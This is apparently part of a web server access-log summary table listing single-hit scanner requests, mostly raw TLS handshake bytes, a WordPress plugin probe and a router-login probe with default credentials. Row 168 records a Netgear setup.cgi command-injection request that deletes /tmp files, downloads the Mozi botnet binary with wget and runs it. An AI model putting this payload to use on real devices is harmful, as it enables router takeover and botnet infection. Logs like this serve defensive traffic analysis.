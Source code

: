 | 163 |                     1 | GET /boaform/admin/formLogin?username=ec8&psd=ec8 HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                  |
| 164 |                     1 | GET /wp-content/plugins/wpvivid-backuprestore/admin/css/wpvivid-admin-bar.css HTTP/1.1                                                                                                                                                                                                                                                                                                                                      |
| 165 |                     1 | \x16\x03\x01\x00\xF2\x01\x00\x00\xEE\x03\x03X\x8FM\xB1<\xC7\x0B)\xA3\xFChD#\x1C*)\xE9\xEA8\x0B\x7F=\x99\x02@\xBC\xCB\xC2\xD4jP5 A\xB1\x01G_!\xB6U\x1C\xB3\xD0\x1E#\x11\xBEl1I\xCB\xC8\x8B\x0Bv\xD4}qc.W\x1E\xC9\xE2\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                            |
| 166 |                     1 | \x16\x03\x01\x00M\x01\x00\x00I\x03\x03\x14\xA38^\xDE\xEF\xC6J\x93 \xD1\x98\xD9-j\xBB\xF3\xF3\xF5\x05\x22{\xF4~v\x99\xDF\xBD\xCAn\xD6\x02 \xAB\xA0\x83E\xDB\x0CiE5\x85\xE5,\x98\x89Z\xDD\x1D\xFB\x90\xE1\xEE\xA4\xE3n\x91                                                                                                                                                                                                    |
| 167 |                     1 | \x16\x03\x01\x01\x17\x01\x00\x01\x13\x03\x03\x80\x9C\xD4B\x176>qF\xA3u\xB1\xCDz\xA2\xFF:Zc\xAE\xBA\x9D\x14r\x01m_mO                                                                                                                                                                                                                                                                                                         |
| 168 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                                   |
| 169 |                     1 | \x16\x03\x01\x00\xDC\x01\x00\x00\xD8\x03\x03m\x13\xCA\xC9\xF3Z\x95+\x94\x08h\xB7\x03\xB4\x95\xFBs\xA8\xB8\x7F\x8E?\xD1\x09\x80\xCEPX~q\x90\x87 \x12\xFA^\xB5j\xE8K\x22\xDC\xB6\x02\x96\xEC\x96s\xAD\x06\x9F&>\xE1\xB7\xFA\xCE\x07\x08\xBF\xE6vV\xAD>\x00\x08\x13\x02\x13\x03\x13\x01\x00\xFF\x01\x00\x00\x87\x00\x0B\x00\x04\x03\x00\x01\x02\x00                                                                            |
| 170 |                     1 | \x16\x03\x01\x00\xF2\x01\x00\x00\xEE\x03\x03\xBB\xDB\xEC\xE2\xD72\xCF\x91\x1E2\xA7\xAA\xC4\x13#Wl\x1Ei\x15\x01\x93\xEF_\x12\xEB\x1F\x86\x1E\xC9)\xC4 \xCEWH\xF4\xFC/Y\xA2\xB8\xAE\xF0\xFEO@\xAFJ\x95\x0B\xE6\xD2\x862\xF3\xC7\x18[\xA1\x7F\x98\xB5!'\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                           |
| 171 |                     1 | \x16\x03\x01\x05\xA8\x01\x00\x05\xA4\x03\x03x>\xD0K\xDF\xF0n\xFD\xC4\x02S\xF5RU\x8C5\xE5j\xBC\xAD\x82b\xB102\xCA\xB7\xD8\xB8\xB7\xAD\xDF g\xF6\x09\x17\xC8\xD5x\x80{\xA4\xF0\xCD\xE1F\xD1\x96\xF8w\xC3\x8E\xFF\xD1\x18\xAB.\x9Ad\xDC\x1C>\xBF\xE3\x00\x1A\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                           |
